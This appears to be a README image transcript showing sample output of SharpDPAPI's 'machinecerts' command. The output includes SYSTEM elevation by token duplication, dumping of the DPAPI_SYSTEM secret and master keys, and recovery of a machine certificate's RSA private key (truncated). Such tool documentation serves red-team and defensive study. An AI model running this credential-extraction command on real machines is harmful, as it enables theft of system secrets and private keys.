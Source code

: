  C:\Temp>SharpDPAPI.exe machinecerts

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.7.0


 [*] Action: Machine DPAPI Certificate Triage

 [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
 [*] RevertToSelf()


 [*] Secret : DPAPI_SYSTEM
 [*] full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
 [*] m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

 [*] SYSTEM master key cache:

 {3c1fb9fb-aabe-4c45-aab9-c3e1b614776d}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
 ...(snip)...


 [*] Triaging System Certificates


 Folder : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys


 Certificate file : fad662b360941f26a1193357aab3c12d_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

 Private Key GUID : IIS Express Development Certificate Container
 Magic Header: RSA1
 Len1: 264
 Bitlength: 2048
 UNK: 255
 Pubexp: 65537
 GuidProvider GUID is {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
 Master Key GUID is {3c1fb9fb-aabe-4c45-aab9-c3e1b614776d}
 Description: CryptoAPI Private Key
 algCrypt: CALG_AES_256
 keyLen: 256
 Salt: daa3d225ba280029a6169495bbdb3182c75f659ffcd1352ee845e830621fbc08
 algHash: CALG_SHA_512
 Hashlen: 512
 HMAC: 93519cb9b6bbdf409909b3ee78dc1d783ab5db273bf796d9f9f77ea8ba2f64b3

 [*] Private key file fad662b360941f26a1193357aab3c12d_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered

 [*] PKCS1 Private key

 -----BEGIN RSA PRIVATE KEY-----
 MIIEogIBAAKCAQEApSg1h2MH3lK39ZoFrj1tz5...(snip)...
 -----END RSA PRIVATE KEY-----

 [*] Certificate
